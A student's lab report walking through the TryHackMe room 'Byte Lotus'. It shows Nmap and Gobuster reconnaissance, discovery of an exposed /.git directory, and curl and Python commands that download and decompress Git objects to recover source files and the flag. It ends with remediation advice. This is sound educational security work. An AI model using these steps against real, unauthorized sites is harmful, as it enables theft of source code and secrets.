# LAB 5 – TRYHACKME ROOM 404: BYTE LOTUS WALKTHROUGH

## Student Information

| Information | Details |
|---|---|
| Name | MUHAMMAD ZHOFRI DINIE BIN JAFNI |
| Student ID | 52215226011 |
| Group | L01-B03 |
| Subject | Cybersecurity Lab |
| Platform | TryHackMe |
| Room | Room 404 – Byte Lotus |
| Attacking Machine | TryHackMe AttackBox (Linux) |
| Lab Status | Completed |

---

# 1. Introduction

In this lab, I performed a security assessment on a vulnerable web application called Byte Lotus, hosted on the TryHackMe platform.

The purpose of this practical exercise was to identify vulnerabilities, investigate exposed files, analyze application source code, and retrieve the challenge flag.

During the investigation, I used several cybersecurity tools, including Nmap, Gobuster, Curl, Firefox Developer Tools, Python, and Linux commands.

The assessment was performed in an authorized TryHackMe lab environment for educational purposes.

## 1.1 Objectives

The objectives of this lab were:

1. To identify the target machine and available web services.
2. To perform website reconnaissance and directory enumeration.
3. To investigate exposed Git repository files.
4. To recover and analyze application source code.
5. To discover and submit the TryHackMe challenge flag.

---

# 2. Target Information

| Information | Details |
|---|---|
| Target Machine | Byte Lotus |
| Target IP Address | 10.49.163.190 |
| AttackBox IP Address | 10.49.129.103 |
| Target Port | 8080 |
| Web Server | Werkzeug 3.0.1 |
| Operating Environment | TryHackMe AttackBox |
| Target URL | http://10.49.163.190:8080 |

**Note:** TryHackMe target IP addresses may change when machines are restarted.

---

# 3. Tools Used

| Tool | Purpose |
|---|---|
| Nmap | Identify open ports and network services |
| Firefox | Access and investigate the target website |
| Developer Tools | Inspect the website HTML structure |
| Gobuster | Discover hidden directories and files |
| Curl | Send HTTP requests and download exposed files |
| Python | Decompress and analyze Git objects |
| Strings | Extract readable information from binary files |
| Linux Terminal | Execute commands during the assessment |

---

# 4. Methodology

The following methodology was used to complete this lab:

1. Target identification
2. Network reconnaissance
3. Website enumeration
4. Directory and file discovery
5. Git repository investigation
6. Git commit and tree analysis
7. Application source code analysis
8. Flag discovery and submission

---

# 5. Practical Walkthrough

## Step 1: Accessing the TryHackMe Room

First, I logged in to the TryHackMe platform and opened the Room 404 challenge.

The challenge provided a vulnerable web application called Byte Lotus.

I started the target machine and accessed the application through the TryHackMe AttackBox.

**Target URL:**

```text
http://10.49.163.190:8080
```

**Explanation:**

The AttackBox provides a Linux environment that allows students to perform cybersecurity testing against the authorized target machine.

**Result:**

I successfully accessed the Byte Lotus website.

### Screenshot Evidence



*Figure 1: Accessing the Room 404 challenge on TryHackMe.*

---

## Step 2: Accessing the Byte Lotus Website

After starting the target machine, I opened Firefox inside the AttackBox.

I entered the target URL:

```text
http://10.49.163.190:8080
```

The website displayed the Byte Lotus homepage.

The navigation menu contained:

- Rooms
- The App
- Concierge
- Stay

**Explanation:**

This step allowed me to understand the website structure and identify areas that could be investigated further.

**Result:**

The web application was accessible through port 8080.

### Screenshot Evidence



*Figure 2: Byte Lotus vulnerable web application homepage.*

---

## Step 3: Network Reconnaissance Using Nmap

I used Nmap to investigate the target machine and identify available services.

**Example focused scan command:**

```bash
nmap -sV -p 8080 10.49.163.190
```

**Command Explanation:**

- `nmap` – Performs network scanning.
- `-sV` – Attempts to identify service versions.
- `-p 8080` – Scans port 8080.
- `10.49.163.190` – Specifies the target machine.

**Result:**

The target web application was accessible on port 8080.

Further HTTP investigation identified Werkzeug 3.0.1 as the web server.

**Analysis:**

Network reconnaissance is important because it helps identify services that may require further security investigation.

### Screenshot Evidence



*Figure 3: Network reconnaissance and service identification using Nmap.*

---

## Step 4: Website Enumeration Using Developer Tools

I attempted to navigate through the Rooms section of the website.

However, clicking the navigation menu did not open another page.

I used Firefox Developer Tools to inspect the HTML code.

**HTML discovered:**

```html
<nav>
    <a href="#">Rooms</a>
    <a href="#">The App</a>
    <a href="#">Concierge</a>
    <a href="#">Stay</a>
</nav>
```

**Explanation:**

The `href="#"` attribute indicated that the navigation links were placeholders rather than links to separate pages.

I also investigated the `robots.txt` file.

**Command:**

```bash
curl -i http://10.49.163.190:8080/robots.txt
```

**Result:**

```text
HTTP/1.1 404 NOT FOUND
```

**Analysis:**

The robots.txt file was not available at the tested URL, so I continued using directory enumeration.

### Screenshot Evidence



*Figure 4: Inspecting the Byte Lotus website navigation using Firefox Developer Tools.*

---

## Step 5: Directory Enumeration Using Gobuster

I used Gobuster to identify hidden directories and files on the web server.

**Command:**

```bash
gobuster dir -u http://10.49.163.190:8080 -w /usr/share/wordlists/dirb/common.txt
```

**Command Explanation:**

- `gobuster` – Directory and file enumeration tool.
- `dir` – Enables directory enumeration.
- `-u` – Specifies the target URL.
- `-w` – Specifies the wordlist.

**Result:**

```text
/.git/HEAD (Status: 200) [Size: 21]
```

**Analysis:**

The Gobuster scan discovered that the Git HEAD file was publicly accessible.

This was an important finding because Git metadata may expose information about application development and repository history.

### Screenshot Evidence



*Figure 5: Gobuster directory enumeration revealing exposed Git metadata.*

---

## Step 6: Investigating the Exposed Git Repository

After discovering the Git metadata, I investigated the Git HEAD file.

**Command:**

```bash
curl http://10.49.163.190:8080/.git/HEAD
```

**Result:**

```text
ref: refs/heads/main
```

**Explanation:**

This output indicated that the repository HEAD referenced the main branch.

Next, I investigated the Git configuration file.

**Command:**

```bash
curl -i http://10.49.163.190:8080/.git/config
```

**Result:**

```text
HTTP/1.1 200 OK
```

**Analysis:**

The successful HTTP response confirmed that Git configuration information was accessible through the web server.

This indicated a potential information disclosure vulnerability.

### Screenshot Evidence



*Figure 6: Investigating the exposed Git repository configuration using Curl.*

---

## Step 7: Downloading and Examining the Git Index

I checked whether the Git index file was accessible.

**Command:**

```bash
curl -I http://10.49.163.190:8080/.git/index
```

**Result:**

```text
HTTP/1.1 200 OK
Content-Length: 289
```

Next, I downloaded the index file.

**Command:**

```bash
curl -o git_index http://10.49.163.190:8080/.git/index
```

I verified the downloaded file.

```bash
ls -l git_index
```

I examined its file type.

```bash
file git_index
```

**Result:**

```text
git_index: Git index, version 2, 3 entries
```

I then extracted readable text from the binary file.

```bash
strings git_index
```

**Files discovered:**

```text
README.md
app.js
index.html
```

**Explanation:**

The Git index contains information about files tracked by the repository.

The results showed that the repository tracked three files.

**Analysis:**

These filenames provided useful information about the application and helped guide the next stage of the investigation.

### Screenshot Evidence



*Figure 7: Downloading the Git index and identifying tracked application files.*

---

## Step 8: Investigating Git Commit History and Tree Objects

I investigated the Git repository logs.

**Command:**

```bash
curl -i http://10.49.163.190:8080/.git/logs/HEAD
```

**Result:**

The Git log revealed information about the initial Byte Lotus guest platform commit.

Next, I retrieved the main branch commit hash.

```bash
curl http://10.49.163.190:8080/.git/refs/heads/main
```

**Commit Hash:**

```text
0f13550b4cb13e9f30c61d5b342c532d21e45bda
```

I created a working directory.

```bash
mkdir -p ~/byte-lotus
cd ~/byte-lotus
```

I downloaded the Git commit object.

```bash
curl -o commit_object http://10.49.163.190:8080/.git/objects/0f/13550b4cb13e9f30c61d5b342c532d21e45bda
```

I decompressed the object using Python.

```bash
python3 -c "import zlib; print(zlib.decompress(open('commit_object','rb').read()).decode())"
```

**Git Tree Hash:**

```text
fa45dbd69394ea9e13683d9efb6a0220daac59d4
```

Next, I downloaded the Git tree object.

```bash
curl -f -o tree_object http://10.49.163.190:8080/.git/objects/fa/45dbd69394ea9e13683d9efb6a0220daac59d4
```

I examined the Git tree using Python.

```bash
python3 -c "import zlib; d=zlib.decompress(open('tree_object','rb').read()); print(''.join(chr(x) if 32 <= x <= 126 else ' ' for x in d))"
```

The tree contained three files:

```text
README.md
app.js
index.html
```

I extracted their Git object hashes.

**Python code:**

```python
import zlib

data = zlib.decompress(open('tree_object', 'rb').read())
pos = data.index(b'\x00') + 1

while pos < len(data):
    end = data.index(b'\x00', pos)
    mode, name = data[pos:end].decode().split(' ', 1)
    sha = data[end+1:end+21].hex()

    print(f"File: {name}")
    print(f"SHA-1: {sha}")
    print()

    pos = end + 21
```

**Results:**

| Filename | SHA-1 Hash |
|---|---|
| README.md | `a5965c580fee91d852e5b19a8290da02d2926523` |
| app.js | `2575ab073f67615a27135663ed36794c2d2584fb` |
| index.html | `0a12caa4e52a965e89e5eccf5760924b21aacbf7` |

**Explanation:**

Git stores repository information using objects. The commit object references a tree object, and the tree object contains references to tracked files.

By examining these objects, I identified the file hashes needed to recover the application files.

### Screenshot Evidence



*Figure 8: Extracting tracked filenames and SHA-1 hashes from the Git tree.*

---

## Step 9: Recovering the JavaScript Source Code

I downloaded the Git object associated with the `app.js` file.

**Command:**

```bash
curl -f -o app_object http://10.49.163.190:8080/.git/objects/25/75ab073f67615a27135663ed36794c2d2584fb
```

I decompressed the downloaded object.

```bash
python3 -c "import zlib; d=zlib.decompress(open('app_object','rb').read()); print(d.split(b'\x00',1)[1].decode())"
```

**Recovered JavaScript:**

```javascript
// Byte Lotus guest app - front-end stub
// concierge personalization is served from the profiling service.
const API = "/api/guest";

async function greet() {
    // TODO: wire to live endpoint before launch
    console.log("Welcome back, your usual?");
}

greet();
```

**Analysis:**

The recovered JavaScript contained a reference to the `/api/guest` endpoint.

I investigated this endpoint using Curl.

**Command:**

```bash
curl -i http://10.49.163.190:8080/api/guest
```

**Result:**

```text
HTTP/1.1 404 NOT FOUND
```

**Explanation:**

The HTTP 404 response indicated that the API endpoint was not available at the tested path.

Although the endpoint did not return useful information, the source code confirmed that application development files could be recovered through the exposed Git repository.

### Screenshot Evidence



*Figure 9: Recovering and analyzing the JavaScript source code from the exposed Git repository.*

---

## Step 10: Recovering README.md and Discovering the Flag

After investigating the JavaScript source code, I continued by recovering the README file.

First, I downloaded the Git object associated with `README.md`.

**Command:**

```bash
curl -f -o readme_object http://10.49.163.190:8080/.git/objects/a5/965c580fee91d852e5b19a8290da02d2926523
```

Next, I decompressed the Git object using Python.

**Command:**

```bash
python3 -c "import zlib; d=zlib.decompress(open('readme_object','rb').read()); print(d.split(b'\x00',1)[1].decode())"
```

**Recovered information:**

```text
# Byte Lotus – Guest Experience Platform

Internal staging repository for the guest app and
concierge personalization service.

Do not deploy this folder to production.
```

The README file also contained the staging flag.

**Flag discovered:**

```text
THM{byt3_l0tus_n3v3r_f0rg3ts}
```

**Explanation:**

The README file was part of an internal staging repository.

Because the Git repository metadata was exposed through the web server, I was able to recover the README contents and discover the challenge flag.

**Result:**

The flag was successfully submitted and accepted by TryHackMe.

### Screenshot Evidence



*Figure 10: Recovering the README file and discovering the TryHackMe staging flag.*

---

## Step 11: Flag Submission and Lab Completion

After recovering the staging flag, I returned to the TryHackMe challenge page.

I entered the discovered flag into the answer field and submitted it.

**Submitted Flag:**

```text
THM{byt3_l0tus_n3v3r_f0rg3ts}
```

**Result:**

TryHackMe accepted the submitted flag, confirming successful completion of the challenge.

### Screenshot Evidence



*Figure 11: TryHackMe confirming successful flag submission.*

---

# 6. Security Findings

## 6.1 Vulnerability Identified

**Vulnerability Name:** Exposed Git Repository

**Vulnerability Category:** Information Disclosure

**Affected Directory:**

```text
/.git/
```

## 6.2 Vulnerability Description

During the investigation, I discovered that the Byte Lotus web application exposed Git repository metadata through its web server.

The exposed repository allowed access to Git configuration files, commit information, tree objects, and application source files.

The recovered README file also contained a staging flag.

## 6.3 Security Impact

This vulnerability could result in several security risks:

1. Exposure of application source code.
2. Disclosure of internal development information.
3. Exposure of sensitive configuration information.
4. Possible leakage of credentials or secrets if stored in the repository.
5. Increased opportunities for further attacks.

## 6.4 Security Recommendations

To prevent this vulnerability, the following security measures are recommended:

1. Restrict public access to the `.git` directory.
2. Avoid deploying Git repository metadata to production servers.
3. Review application files before deployment.
4. Remove sensitive information from repository history.
5. Rotate credentials if any secrets have been exposed.
6. Perform regular security assessments.

---

# 7. Discussion

During this lab, I learned how an exposed Git repository can create an information disclosure vulnerability in a web application.

At the beginning of the assessment, I performed reconnaissance to understand the target machine and its web services.

I then used Gobuster to identify hidden files. The discovery of `/.git/HEAD` was important because it indicated that Git metadata was accessible.

After investigating the Git repository, I learned how Git objects store information about commits, trees, and tracked files.

Using Python, I decompressed the Git objects and recovered application source files.

Finally, I recovered the README file containing the staging flag and submitted it successfully to TryHackMe.

This exercise improved my understanding of web application security, directory enumeration, Git repository analysis, and information disclosure vulnerabilities.

---

# 8. Conclusion

In conclusion, I successfully completed the Byte Lotus vulnerable machine challenge on TryHackMe.

The investigation involved network reconnaissance, website enumeration, directory discovery, Git repository analysis, source code recovery, and flag submission.

The main vulnerability discovered was an exposed Git repository that allowed internal application files to be recovered.

Through this practical exercise, I gained experience using cybersecurity tools such as Nmap, Gobuster, Curl, Python, and Firefox Developer Tools.

I also learned the importance of securing web application files and preventing development repositories from being publicly accessible.

---

# 9. Lab Completion Summary

| Task | Status |
|---|---|
| Access TryHackMe Room | Completed |
| Start Vulnerable Machine | Completed |
| Network Reconnaissance | Completed |
| Website Enumeration | Completed |
| Gobuster Directory Enumeration | Completed |
| Git Repository Investigation | Completed |
| Git Index Analysis | Completed |
| Git Commit and Tree Analysis | Completed |
| JavaScript Source Code Recovery | Completed |
| README File Recovery | Completed |
| Flag Discovery | Completed |
| Flag Submission | Accepted |

**Final Lab Status: COMPLETED**

---

**Prepared by:** MUHAMMAD ZHOFRI DINIE BIN JAFNI  
**Student ID:** 52215226011  
**Group:** L01-B03
